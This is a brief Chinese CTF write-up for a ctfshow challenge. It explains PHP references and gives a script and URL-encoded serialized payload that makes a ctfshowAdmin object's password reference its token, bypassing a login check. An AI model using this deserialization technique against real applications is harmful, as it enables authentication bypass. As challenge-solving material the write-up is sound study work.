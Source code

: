 # 知识点
# 思路
考察php按地址传参<br />例如
```plsql
$a = 'Ki1ro';
$b = &$a; // 这样相当于把&a指向的地址传给了&b
$a = '1' // 当&a的值发生改变，$b也会发生改变
```
EXP
```plsql
<?php
  class ctfshowAdmin{
      public $token;
      public $password;

      public function __construct($t,$p){
          $this->token=$t;
          $this->password = $p;
      }
      public function login(){
          return $this->token===$this->password;
      }
  }
  $a = new ctfshowAdmin(1,2);
  $a->password = &$a->token;
  echo urlencode(serialize($a));
```
payload
```plsql
?ctfshow=
O%3A12%3A%22ctfshowAdmin%22%3A2%3A%7Bs%3A5%3A%22token%22%3Bi%3A1%3Bs%3A8%3A%22password%22%3BR%3A2%3B%7D
```
![image.png](./images/20231017_2356539758.png)

